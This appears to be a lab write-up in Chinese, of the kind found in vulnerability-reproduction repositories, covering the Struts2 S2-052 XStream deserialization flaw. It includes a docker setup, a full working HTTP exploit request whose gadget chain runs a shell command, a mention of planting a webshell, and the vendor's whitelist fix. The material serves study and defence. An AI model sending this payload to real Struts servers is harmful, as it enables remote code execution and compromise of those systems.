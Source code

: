 # S2-052 远程代码执行漏洞

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情:

 - http://struts.apache.org/docs/s2-052.html
 - https://yq.aliyun.com/articles/197926

## 测试环境搭建

```
docker compose up -d
```

## 漏洞说明

Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

扩展名 | Content-Type | 解析方法
---- | ---- | ----
xml | application/xml | xstream
json | application/json | jsonlib或jackson(可选)
xhtml | application/xhtml+xml | 无
无 | application/x-www-form-urlencoded | 无
无 | multipart/form-data | 无

jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：

```
<classname></classname>
//或者
<paramname class="classname"></paramname>
```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedget。

## 漏洞复现

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。由于rest-plugin会根据URI扩展名或Content-Type来判断解析方法，所以我们只需要修改orders.xhtml为orders.xml或修改Content-Type头为application/xml，即可在Body中传递XML数据。

所以，最后发送的数据包为：

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

以上数据包成功执行的话，会在docker容器内创建文件`/tmp/success`，执行`docker compose exec struts2 ls /tmp/`即可看到。

此外，我们还可以下载一个jspx的webshell：

![](01.png)

还有一些更简单的利用方法，就不在此赘述了。

## 漏洞修复

struts2.5.13中，按照xstream给出的缓解措施（ http://x-stream.github.io/security.html ），增加了反序列化时的白名单：

```java
protected void addDefaultPermissions(ActionInvocation invocation, XStream stream) {
    stream.addPermission(new ExplicitTypePermission(new Class[]{invocation.getAction().getClass()}));
    if (invocation.getAction() instanceof ModelDriven) {
        stream.addPermission(new ExplicitTypePermission(new Class[]{((ModelDriven) invocation.getAction()).getModel().getClass()}));
    }
    stream.addPermission(NullPermission.NULL);
    stream.addPermission(PrimitiveTypePermission.PRIMITIVES);
    stream.addPermission(ArrayTypePermission.ARRAYS);
    stream.addPermission(CollectionTypePermission.COLLECTIONS);
    stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class}));
}
```

但此时可能会影响以前代码的业务逻辑，所以谨慎升级，也没有特别好的办法，就是逐一排除老代码，去掉不在白名单中的类。
